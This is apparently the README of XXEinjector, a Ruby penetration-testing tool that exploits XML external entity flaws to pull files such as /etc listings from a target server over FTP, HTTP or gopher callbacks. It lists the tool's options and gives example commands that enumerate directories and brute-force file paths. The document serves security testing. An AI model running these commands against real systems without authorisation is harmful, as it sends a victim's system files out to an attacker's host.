 XXEinjector by Jakub Palaczynski

XXEinjector automates retrieving files using out of band methods. Directory listing only works in Java applications. Bruteforcing method needs to be used for other applications.

Options:<br />
  --host	Mandatory - our IP address for reverse connections. (--host=192.168.0.2)<br />
  --path	Mandatory (or --brute) - Path to enumerate. (--path=/etc)<br />
  --file	Mandatory - File containing HTTP request. Entity in request file needs to point to file.dtd on XXEinjector HTTP server. Issue --xml to show sample HTTP request. (--file=/tmp/req.txt)<br />
  --brute	Mandatory (or --path) - File with paths to bruteforce. (--brute=/tmp/brute.txt)<br />

  --oob		Out of Band exploitation method. FTP is default. FTP can be used in any application. HTTP can be used for bruteforcing and enumeration through directory listing in Java < 1.7 applications. Gopher can only be used in Java < 1.7 applications. (--oob=http/ftp/gopher)<br />
  --phpfilter		Use PHP filter to base64 encode target file before sending.<br />

  --ssl		Use SSL.<br />
  --proxy	Proxy to use. (--proxy=127.0.0.1:8080)<br />
  --httpport	Set custom HTTP port. (--httpport=80)<br />
  --ftpport	Set custom FTP port. (--ftpport=21)<br />
  --gopherport	Set custom gopher port. (--gopherport=70)<br />

  --timeout	Timeout for receiving file/directory content. (--timeout=20)<br />
  --fast	Skip asking what to enumerate. Prone to false-positives.<br />
  --verbose	Show verbose messages.<br />

Example usage:<br />
  Enumerating /etc directory using HTTPS protocol with proxy:<br />
  ruby XXEinjector-github.rb --host=192.168.0.2 --path=/etc --file=/tmp/req.txt --ssl --proxy=127.0.0.1:8080<br />
  Enumerating /etc directory using HTTP protocol:<br />
  ruby XXEinjector-github.rb --host=192.168.0.2 --path=/etc --file=/tmp/req.txt<br />
  Bruteforcing files:<br />
  ruby XXEinjector-github.rb --host=192.168.0.2 --brute=/tmp/filenames.txt --file=/tmp/req.txt
